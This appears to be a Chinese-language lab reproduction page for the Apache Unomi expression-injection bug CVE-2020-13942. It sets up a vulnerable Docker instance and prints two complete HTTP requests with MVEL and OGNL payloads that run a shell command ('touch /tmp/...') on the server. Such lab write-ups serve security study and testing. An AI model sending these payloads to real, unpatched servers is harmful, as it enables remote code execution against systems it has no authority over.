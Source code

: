 # Apache Unomi 远程表达式代码执行漏洞（CVE-2020-13942）

Apache Unomi 是一个基于标准的客户数据平台（CDP，Customer Data Platform），用于管理在线客户和访客等信息，以提供符合访客隐私规则的个性化体验。在Apache Unomi 1.5.1级以前版本中，存在一处表达式注入漏洞，远程攻击者通过MVEL和OGNL表达式即可在目标服务器上执行任意命令。

参考链接：

- https://www.checkmarx.com/blog/apache-unomi-cve-2020-13942-rce-vulnerabilities-discovered/
- https://github.com/eugenebmx/CVE-2020-13942

## 环境搭建

运行如下命令启动一个Apache Unomi 1.5.1的服务器：

```
docker-compose up -d
```

环境启动后，通过`http://your-ip:8181`或`https://your-ip:9443`即可访问到Unomi的API。

## 漏洞复现

通过8181和9443两个端口均可触发漏洞，以下以8181为例。

通过MVEL表达式执行任意命令：

```
POST /context.json HTTP/1.1
Host: localhost:8181
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 483

{
    "filters": [
        {
            "id": "sample",
            "filters": [
                {
                    "condition": {
                         "parameterValues": {
                            "": "script::Runtime r = Runtime.getRuntime(); r.exec(\"touch /tmp/mvel\");"
                        },
                        "type": "profilePropertyCondition"
                    }
                }
            ]
        }
    ],
    "sessionId": "sample"
}
```

通过OGNL表达式执行任意命令：

```
POST /context.json HTTP/1.1
Host: localhost:8181
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 1064

{
  "personalizations":[
    {
      "id":"gender-test",
      "strategy":"matching-first",
      "strategyOptions":{
        "fallback":"var2"
      },
      "contents":[
        {
          "filters":[
            {
              "condition":{
                "parameterValues":{
                  "propertyName":"(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\"touch /tmp/ognl\"))",
                  "comparisonOperator":"equals",
                  "propertyValue":"male"
                },
                "type":"profilePropertyCondition"
              }
            }
          ]
        }
      ]
    }
  ],
  "sessionId":"sample"
}
```

进入容器，可见命令已执行成功：

![](1.png)
